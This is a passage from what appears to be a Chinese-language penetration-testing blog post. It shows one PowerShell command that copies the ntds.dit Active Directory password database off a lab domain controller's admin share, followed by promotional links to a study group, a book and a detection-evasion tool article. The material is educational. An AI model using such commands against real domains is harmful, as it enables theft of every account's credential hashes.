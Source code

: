 ```
Copy-Item '\\dc.offensive.local\C$\Users\administrator\Desktop\ntds.dit'-Destination '\\Client1.offensive.local\C$\Users\alice\Desktop\tools\ntds.dit'   #将dc.offensive.local主机上c:\users\administrator\desktop\ntds.dit文件复制到 Client1.offensive.local 主机的C:\users\alice\Desktop\tools\ntds.dit文件
```




![](https://img-blog.csdnimg.cn/20191211234452512.png)



未完待续。。。。。。。。。



  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！



![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)



参考书籍：[《Web安全攻防-渗透测试实战指南》](https://item.jd.com/12401707.html "《Web安全攻防-渗透测试实战指南》")



相关文章：[PowerShell使用浅析](https://blog.csdn.net/qq_36119192/article/details/103021617 "PowerShell使用浅析")



                  [PowerView：一个可以帮助你躲避检测的内网信息收集脚本](https://www.freebuf.com/sectool/173366.html "PowerView：一个可以帮助你躲避检测的内网信息收集脚本")